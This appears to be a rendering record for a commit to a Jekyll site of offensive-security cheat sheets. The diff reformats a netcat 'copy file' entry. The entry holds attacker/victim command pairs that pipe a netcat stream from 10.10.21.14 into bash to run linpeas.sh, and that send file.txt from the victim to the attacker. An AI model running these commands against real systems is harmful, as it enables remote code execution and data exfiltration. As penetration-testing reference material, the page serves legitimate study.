

Before and after one commit to arttoolkit/arttoolkit.github.io, a Jekyll site: the page built from _wadcoms/netcat-copy_file.md, in a window 1280 px wide, cut to the strip 187-766 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
update netcat

````diff
--- a/_wadcoms/netcat-copy_file.md
+++ b/_wadcoms/netcat-copy_file.md
@@ -6,10 +6,9 @@ description: |
 
   	File to copy: linpeas.sh
 
-    nc -lvnp 9001 < linpeas.sh (attacker) & nc 10.10.21.14 9001 | bash (victim)
+    ```nc -lvnp 9001 < linpeas.sh (attacker)``` & ```nc 10.10.21.14 9001 | bash (victim)```
 
-    nc 10.10.21.14 9001 < file.txt (victim) & nc -lvnp 9001 > file.txt (attacker)
-
+    ```nc 10.10.21.14 9001 < file.txt (victim)``` & ```nc -lvnp 9001 > file.txt (attacker)```
 
 command: |
   nc -lvnp 9001 < linpeas.sh
````
